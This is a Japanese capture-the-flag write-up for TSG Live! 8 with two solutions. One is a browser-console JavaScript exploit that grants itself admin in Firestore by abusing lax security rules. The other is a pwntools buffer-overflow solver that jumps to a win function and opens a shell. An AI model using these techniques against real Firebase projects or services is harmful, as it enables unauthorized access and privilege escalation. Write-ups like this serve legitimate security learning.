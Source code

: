 # TSG Live! 8 CTF Writeup

## 目次

- Web
  - [Problem on fire](#problem-on-fire)
- Pwn
  - [bpxover](#bpxover)

## Problem on fire

開くと`FirebaseError: [code=permission-denied]: Missing or insufficient permissions.`というエラーが表示されています。ソースコードを見ると`firestore.rules`に

> // 自分のユーザー情報を書き込めるのは自分のみ  
> // 一度作ったユーザー情報を編集できるのはadminだけ  
> // flagを読めるのはadminだけ  

というコメントがあり、自分のユーザー情報をadminにできればいいということがわかります。  
以下のJavaScriptコードをコンソールで実行するとフラグが得られます。

```js
const db = firebase.firestore();
const auth = firebase.auth();
const {user} = await auth.signInAnonymously();
const token = await user.getIdToken();
const uid = user.uid;
await db.collection('users').doc(uid).set({admin: true});
flag = await db.collection('flags').doc('flag').get();
console.log(flag.get("value"));
```

## bpxover

ソースコードを見るとアセンブリを実行していますが、それは関係なくBoFの脆弱性があります。winに飛ばせばよいです。  
以下のソルバでシェルが取れるので、`cat flag`とかすればフラグが得られます。

```py
from pwn import *

io = process(["nc", "chall.live.ctf.tsg.ne.jp", "30006"])

win_addr = p64(0x00000000004011b6)
main_addr = p64(0x00000000004011f0)
buf_size = 16

payload = b"\x00" * (buf_size + 24) + win_addr
print(payload)
print(io.recvline())
io.sendline(payload)

io.interactive()
```
